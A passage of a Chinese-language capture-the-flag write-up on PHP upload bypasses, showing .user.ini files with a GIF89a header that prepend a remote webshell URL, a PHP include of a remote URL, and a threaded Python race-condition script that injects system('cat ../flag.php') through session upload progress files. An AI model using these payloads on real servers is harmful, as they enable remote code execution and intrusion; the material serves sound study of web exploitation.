 ```
GIF89a
auto_prepend_file=http://长地址/🐎路径
或
上传png图片
<?include'http://长地址/🐎路径'?>
```

![image-20231129232539461](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231129232539461.png)

姿势二：

session文件包含、条件竞争 

首先上传文件.user.ini,和png

```
GIF89a
auto_prepend_file=png
png:
GIF89a
<?=include"/tmp/sess_123"?>  //123是指PHPSESSID的值
```

写脚本进行竞争

```python
import requests
import io
import threading

url = "http://052b1dd8-15ad-49c6-9ea7-61873cc8cca3.challenge.ctf.show/"
f = io.BytesIO(b'a' * 1024 * 50)
def write(session):
    while True:
        response = session.post(
            url=url,
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat ../flag.php')?>"},
            cookies={"PHPSESSID":"123"},
            files={"file":("1.txt",f)}
            )

def read(session):
    while True:
        response1 = session.get(url=url+"upload")
        if 'ctfshow' in response1.text:
            print(response1.text)


if __name__ == '__main__':
    evnet = threading.Event()
    with requests.session() as session:
        for i in range(5):
            threading.Thread(target=write,args=(session,)).start()
        for i in range(5):
            threading.Thread(target=read,args=(session,)).start()
    evnet.set()
```
